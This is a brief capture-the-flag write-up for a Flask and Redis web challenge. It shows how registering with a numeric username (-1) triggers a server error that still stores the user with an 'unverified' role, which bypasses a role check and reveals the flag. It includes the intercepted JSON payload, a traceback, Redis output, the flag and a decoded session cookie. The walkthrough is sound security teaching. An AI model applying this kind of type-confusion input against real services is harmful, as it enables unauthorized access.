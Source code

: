# Type confusion vuln

## (dont forget to delete/reset your cookies when testing different stuff)

Register and intercept your request to look like this:

`{"username":-1,"password":"test123"}`

Setting username to a -1 instead of a string (no quotes) will cause the server to error out, yet still create a user entry in the redis cache

```
flask-1  |   File "/app/application/main.py", line 78, in register
flask-1  |     matches = re.match(username,password)
flask-1  |               ^^^^^^^^^^^^^^^^^^^^^^^^^^^
flask-1  |   File "/usr/local/lib/python3.12/re/__init__.py", line 167, in match
flask-1  |     return _compile(pattern, flags).match(string)
flask-1  |            ^^^^^^^^^^^^^^^^^^^^^^^^
flask-1  |   File "/usr/local/lib/python3.12/re/__init__.py", line 299, in _compile
flask-1  |     raise TypeError("first argument must be string or compiled pattern")
flask-1  | TypeError: first argument must be string or compiled pattern
```

We can verify in a local docker using redis-cli that our user has been created but assigned the "unverified" role instead of the normal "user" role, bypassing the role check and allowing us to see the flag at /dashboard.

```
127.0.0.1:6379> KEYS *
1) "user:-1:password"
2) "user:-1:role"
127.0.0.1:6379> GET user:-1:role
"unverified"
```

Welcome admin! Here you go: SIVUSCG{h0w_b0ut_d4t}

We can decode our JWT cookie to see what it looks like:
eyJsb2dnZWRfaW4iOnRydWUsInJvbGUiOiJ1bnZlcmlmaWVkIiwidXNlcm5hbWUiOi0xfQ.ZmWTNw.xssBgg9qoR0LAB7VqNziuOFEjhs
```
{
  "logged_in": true,
  "role": "unverified",
  "username": -1
}
```
